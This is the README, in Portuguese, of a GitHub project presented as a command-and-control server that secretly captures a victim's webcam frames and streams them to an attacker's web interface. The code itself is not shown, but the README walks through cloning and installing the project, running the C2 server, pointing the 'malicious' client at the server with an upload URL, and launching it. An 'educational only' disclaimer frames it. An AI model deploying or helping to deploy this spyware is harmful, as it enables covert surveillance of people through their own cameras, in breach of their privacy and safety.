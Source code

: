 # README.md

<h1>C2 Server - Webcam Stream Capture</h1>

<p>Este projeto demonstra o funcionamento de um servidor C2 (Command and Control) que captura frames da webcam da máquina da vítima e os envia para um servidor remoto. O código inclui tanto o lado do servidor C2 quanto o script malicioso do cliente que coleta e envia os frames. <strong>Este código é apenas para fins educacionais e de conscientização sobre segurança, e seu uso mal-intencionado é ilegal.</strong></p>

<hr>

<h2>📋 Descrição</h2>

<p><strong>O que acontece:</strong></p>

<ol>
    <li>O script acessa a webcam da vítima, captura frames periodicamente e os codifica em base64.</li>
    <li>Esses frames são enviados ao servidor C2.</li>
    <li>O servidor C2 armazena os frames recebidos e os exibe em tempo real através de uma interface web, permitindo que um invasor visualize a transmissão da webcam da vítima.</li>
</ol>

<hr>

<h2>🚀 Tecnologias e Bibliotecas Utilizadas</h2>

<ul>
    <li><strong>Flask</strong>: Framework web usado para o servidor C2.</li>
    <li><strong>OpenCV</strong>: Usado para capturar frames da webcam.</li>
    <li><strong>Pillow</strong>: Biblioteca de imagem para manipular e salvar os frames.</li>
    <li><strong>Requests</strong>: Para enviar os frames do cliente ao servidor.</li>
    <li><strong>HTML/CSS/JavaScript</strong>: Para exibir os frames na interface do servidor.</li>
</ul>

<hr>

<h2>⚙️ Instalação</h2>

<h3>Passo 1: Clonar o repositório</h3>

<pre><code>git clone https://github.com/niklaz4/C2-control-and-webcam.git
cd C2-control-and-webcam
</code></pre>

<h3>Passo 2: Criar e ativar o ambiente virtual (venv)</h3>

<p>Para isolar as dependências do projeto, é recomendável criar um ambiente virtual.</p>

<ul>
    <li>Em sistemas Unix ou MacOS:</li>
    <pre><code>python3 -m venv venv</code></pre>
    <li>Ativar o ambiente virtual:</li>
    <pre><code>source venv/bin/activate</code></pre>
    
    <li>Em sistemas Windows:</li>
    <pre><code>python -m venv venv</code></pre>
    <li>Ativar o ambiente virtual:</li>
    <pre><code>venv\Scripts\activate</code></pre>
</ul>

<h3>Passo 3: Instalar as dependências</h3>

<p>Com o ambiente virtual ativado, instale o <strong>Flask</strong> e as bibliotecas necessárias usando o pip:</p>

<pre><code>pip install Flask pillow requests opencv-python</code></pre>

<hr>

<h2>📷 Instruções de Execução</h2>

<h3>1. Configurar e executar o servidor C2:</h3>

<p>Execute o servidor C2:</p>

<pre><code>python c2_server.py</code></pre>

<p>O servidor será iniciado e escutará na porta <strong>5000</strong>. Acesse o endereço no navegador: <code>http://localhost:5000</code></p>

<h3>2. Configurar o codigo malicioso:</h3>

<p>No script <code>client.py</code>, defina o endereço IP do servidor C2 na variável <code>c2_server</code>. Por exemplo:</p>

<pre><code>c2_server = "http://192.168.1.100:5000/upload"</code></pre>

<h3>3. Iniciar o script malicioso do cliente:</h3>

<p>Execute o codigo que enviará os frames da webcam para o servidor C2:</p>

<pre><code>python webcam.py</code></pre>

<hr>

<h2>⚠️ Aviso Legal</h2>

<p><strong>Aviso Legal:</strong> Este código é fornecido para fins de aprendizado e conscientização sobre vulnerabilidades de segurança e ataques de spyware. O uso inadequado para atividades maliciosas é ilegal e punível por lei. Use com responsabilidade e ética.</p>


